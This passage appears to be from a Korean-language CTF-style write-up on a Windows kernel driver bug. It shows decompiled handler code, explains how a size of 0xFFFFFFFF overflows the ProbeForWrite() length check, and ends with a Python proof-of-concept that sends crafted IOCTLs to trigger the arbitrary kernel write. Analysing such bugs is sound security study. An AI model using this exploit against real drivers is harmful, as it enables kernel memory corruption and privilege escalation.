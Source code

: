 ```cpp
      ++kernel_msg_len;
    while ( kernel_msg[kernel_msg_len] );
    if ( user_msg_len >= kernel_msg_len )
      user_msg_len = kernel_msg_len;
    memcpy(user_msg, kernel_msg, user_msg_len);
    user_msg[user_msg_len] = 0;
    memset(kernel_msg, 0, user_msg_len);
    return 0i64;
}
```

위 코드를 보면 `user_to_kernel_handler()` 함수는 입력값 버퍼를 메세지를 읽고 커널 메모리 영역에 삽입하는데, `kernel_to_user_handler()` 함수의 경우, 커널 메모리 영역에 보관된 메세지를 읽어드려 **입력값 버퍼에 삽입**한다.

이때 입력값 버퍼는 DeviceIoControl() 함수의 3번째 인자값이기 때문에 주소값을 원하는 대로 조작할 수 있다. 하지만 memcpy() 수행 전에 [ProbeForWrite()](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-probeforwrite) 함수로 입력값 버퍼의 주소가 실제 User-land 에 속하는 주소인지 검사를 실시하게 된다.

이 검사는 kernel_to_user_handler() 함수에서 ProbeForWrite() 함수의 2번째 인자값에 1을 더해 호출되기 때문에, 하단의 코드처럼 입력값 버퍼의 크기를 0xFFFFFFFF 로 지정해주면 Integer Overflow 가 발생해 우회가 가능하다.

# POC

```python
from KePwnLib import *
import sys

BABY_IOCTL_CODE1 = 0x226203 # user -> kernel
BABY_IOCTL_CODE2 = 0x226207 # kernel -> user
BABY_IOCTL_CODE3 = 0x22620B # jmp to handler

DRIVER_NAME = "\\\\.\\SecureStorage"
DEVICE_NAME = "SecureDrv"

# edit for exploit
DeviceIoControl.argtypes = [
	HANDLE,
	DWORD,
	c_ulonglong, # LPVOID,
	DWORD,
	LPVOID,
	DWORD,
	POINTER(DWORD),
	LPVOID
]

hDriver = DriverConnect(DRIVER_NAME)
if hDriver == NULL:
	print "[!] cannot create kernel driver handler"
	sys.exit(-1)

print "[+] %s handler      = 0x%x" % (DRIVER_NAME, hDriver)
securedrv_addr = GetDeviceBase(DEVICE_NAME)
print "[+] %s base address = 0x%016x" % (DEVICE_NAME, securedrv_addr)

dwRet = DWORD(0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE1, NULL, 0, NULL, 0, byref(dwRet), 0)

buf = create_string_buffer(0x100)
memmove(buf, "A" * 8, 8)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, addressof(buf), 8, NULL, 0, byref(dwRet), 0)

DeviceIoControl(hDriver, BABY_IOCTL_CODE2, NULL, 0, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, securedrv_addr+0x4050, -1, NULL, 0, byref(dwRet), 0)
```